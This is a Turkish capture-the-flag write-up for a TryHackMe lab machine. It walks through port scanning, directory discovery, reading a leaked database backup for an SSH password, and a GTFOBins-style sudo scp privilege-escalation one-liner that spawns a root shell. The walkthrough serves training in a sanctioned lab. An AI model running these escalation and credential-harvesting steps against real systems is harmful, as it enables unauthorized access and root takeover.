









# TRYHACKME BTTSubuCTF WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/bttsubuctf (suan offline yükleme durumunda ilerde aktif olacak) adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 192.168.1.72 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 



Tarama sonucunda 22 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine gidince bir firmaya ait basit bir website ile karşılaşıyoruz.




Websitesine dizin taraması yapmak için dirsearch aracını kullanıyoruz: 

```bash
dirsearch -u http://192.168.1.72
```
-u hedefi belirtir 



Yaptığımız arama sonucunda db_backup.sql adında içinde önemli bilgiler olabilecek bir dosya görüyoruz. Dosyayı görüntülemek için curl aracını kullanıyoruz: 

```bash
curl -ks http://192.168.1.72/db_backup.sql -v 
```
-ks ssl ve tls doğrulamasını atlatır 

-v website ile aramızdaki trafiği daha detaylı gösterir



Ve sysadmin kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile ssh girişi yapabilir miyiz kontrol ediyoruz: 

```bash
ssh sysadmin@192.168.1.72
```


Ve içerdeyiz . İçerde gizli bir ipucu dosyası buluyoruz: 



Sudo yetkilermizi aşağıdaki komutla kontrol ediyoruz: 

```bash
sudo -l
```

-l kullanıcı yetkilerini listeler 




Sadece scp komutunu root yetkisiyle çalıştırabildiğimizi görüyoruz. Bu önlemi aşmak için https://gtfobins.github.io/gtfobins/scp/ sayfasına gidiyoruz



Sayfada root olmak için aşağdaki komutu kullanmamız gerektiğini öğreniyoruz: 

```bash 
TF=$(mktemp) && echo 'sh 0<&2 1>&2' > $TF && chmod +x "$TF" && sudo scp -S $TF x y:
```
TF=$(mktemp) : /tmp dizininde geçici bir dosya oluşturur ve dosya yolunu TF değişkenine atar . 

echo 'sh 0<&2 1>&2' > $TF oluşturduğumuz geçici dosyaya shell açma komutunu(sh 0<&2 1>&2) yazar . 

chmod +x "$TF" dosyamıza çalıştırma izni verir 

sudo scp -S $TF x y:  scp komutunu root yetkileriyle bizim geçici dosyamızı çalıştıracak şekilde başlatır 



Ve rootuz!. shellimizi tam interaktif hale getirmek için aşağıdaki python kodunu kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz .


